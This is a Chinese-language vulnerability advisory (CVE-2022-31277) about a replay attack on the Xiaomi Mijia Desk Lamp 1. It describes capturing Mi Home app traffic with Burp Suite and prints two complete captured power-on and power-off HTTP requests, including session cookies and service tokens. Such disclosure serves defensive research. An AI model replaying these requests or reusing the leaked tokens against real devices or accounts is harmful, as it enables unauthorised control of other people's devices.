

## 米家台灯1存在重放攻击漏洞

**漏洞厂商**: 小米

**厂商官网**: https://www.mi.com/

**影响产品**: 米家台灯 1

**影响产品版本**: 2.0.4_0066

**固件链接**: 非公开

**发现者**: [SkYe231](mailto:skye231@foxmail.com)@Hillstone

**CNVD**: CNVD-2022-08945

**CVE**: CVE-2022-31277

### 漏洞描述

米家台灯 1 存在重放攻击漏洞，允许远程攻击者通过重放攻击绕过预期访问限制，控制米家台灯 1 开关等等功能。

### 漏洞详情

以重放攻击打开台灯为例。通过 burp sutie 抓取[米家 ](https://app.mi.com/details?id=com.xiaomi.smarthome)APP 流量，点击开启台灯，抓取一个路径是 `/app/home/rpc/xxxxxx` 的流量包，这个就是操控台灯的数据包：



放入重放器，只要发送这个数据包就能开启台灯。


可以看到包里面的 data 加密的，通过分析 apk 知道是加密的 json 存放控制信息键值对。再次抓取一个开灯操作包：


两次数据包 data 密文不一样，但是**两个数据包都能重放攻击打开台灯**。

### 攻击演示

攻击视频过程，请查看目录下的演示视频


### 数据包

**Power on**

```
POST /app/home/rpc/103026381 HTTP/2
Host: api.io.mi.com
Cookie: cUserId=z5I4yEoraBTq9saRx4EVTyhYmis; yetAnotherServiceToken=kCgNCaLNEN8ZWgRWAB8rz80p30J0tUq9rczSyjT6Mppke/W/bE9kEgoOIWjkZHvxNorxDWGhhSOWrPIuuR9RV/w4z9I4Qr5L6yPzruhiYo3/OuM17Gjjg8j9p5arxV/c57cMbvPyq/BrAnsEWx4gtr/nHW1cNurliqCDnbVfnwQ=; serviceToken=kCgNCaLNEN8ZWgRWAB8rz80p30J0tUq9rczSyjT6Mppke/W/bE9kEgoOIWjkZHvxNorxDWGhhSOWrPIuuR9RV/w4z9I4Qr5L6yPzruhiYo3/OuM17Gjjg8j9p5arxV/c57cMbvPyq/BrAnsEWx4gtr/nHW1cNurliqCDnbVfnwQ=; countryCode=CN; locale=zh_CN; timezone_id=Asia/Shanghai; timezone=GMT%2B08%3A00; is_daylight=0; dst_offset=0; channel=MI_APP_STORE
X-Xiaomi-Protocal-Flag-Cli: PROTOCAL-HTTP2
Miot-Encrypt-Algorithm: ENCRYPT-RC4
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 233
Miot-Accept-Encoding: GZIP
User-Agent: Android-9-7.0.705-OnePlus-ONE A2001-5367221d0f-ABCC519D26BD50706F361F21EB3FE3F36CD00D48-CN-A46D1E4F5C44F1ED76AD29CF103025E9-767BC40DA1FC6E417C4C25727B948117-SmartHome-MI_APP_STORE-ABCC519D26BD50706F361F21EB3FE3F36CD00D48|73DB42F5AC0EF95D26073AC75A1505CDEFD90DBE|-32

data=YHYNfLWS8LEBZBZZIdUR1X606sBwilQiZDMloVqjt%2BFVbPNjRnEIeB5DvZinL7Y%3D&rc4_hash__=XqPOZ7wCLzpDaEroeFmOWQXUiCoFIyOiy49GNQ%3D%3D&signature=zts1XCrmpHnd7ukhqB1Uv3am6kk%3D&_nonce=Cpz3G2Yb8koBoWqu&ssecurity=t1Inie9yjbbhN20Evsoq7g%3D%3D
```

**Power off**

```
POST /app/home/rpc/103026381 HTTP/2
Host: api.io.mi.com
Cookie: cUserId=z5I4yEoraBTq9saRx4EVTyhYmis; yetAnotherServiceToken=kCgNCaLNEN8ZWgRWAB8rz80p30J0tUq9rczSyjT6Mppke/W/bE9kEgoOIWjkZHvxNorxDWGhhSOWrPIuuR9RV/w4z9I4Qr5L6yPzruhiYo3/OuM17Gjjg8j9p5arxV/c57cMbvPyq/BrAnsEWx4gtr/nHW1cNurliqCDnbVfnwQ=; serviceToken=kCgNCaLNEN8ZWgRWAB8rz80p30J0tUq9rczSyjT6Mppke/W/bE9kEgoOIWjkZHvxNorxDWGhhSOWrPIuuR9RV/w4z9I4Qr5L6yPzruhiYo3/OuM17Gjjg8j9p5arxV/c57cMbvPyq/BrAnsEWx4gtr/nHW1cNurliqCDnbVfnwQ=; countryCode=CN; locale=zh_CN; timezone_id=Asia/Shanghai; timezone=GMT%2B08%3A00; is_daylight=0; dst_offset=0; channel=MI_APP_STORE
X-Xiaomi-Protocal-Flag-Cli: PROTOCAL-HTTP2
Miot-Encrypt-Algorithm: ENCRYPT-RC4
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 235
Miot-Accept-Encoding: GZIP
User-Agent: Android-9-7.0.705-OnePlus-ONE A2001-5367221d0f-ABCC519D26BD50706F361F21EB3FE3F36CD00D48-CN-A46D1E4F5C44F1ED76AD29CF103025E9-767BC40DA1FC6E417C4C25727B948117-SmartHome-MI_APP_STORE-ABCC519D26BD50706F361F21EB3FE3F36CD00D48|73DB42F5AC0EF95D26073AC75A1505CDEFD90DBE|-32

data=AeYm0RhrXxd2UFW0RbrSq1vJg00F7etiu3HU%2B49SIY0KBAr5BZ4aWWtRRp%2BkUfpK&rc4_hash__=t1RrRFeKaIExpcqPD7fs29PwOaWF0%2BZDak92NA%3D%3D&signature=G5jfJlJkrYKectgL1ylXFWV6g1M%3D&_nonce=hlmICBR3G2cBoWqv&ssecurity=t1Inie9yjbbhN20Evsoq7g%3D%3D
```

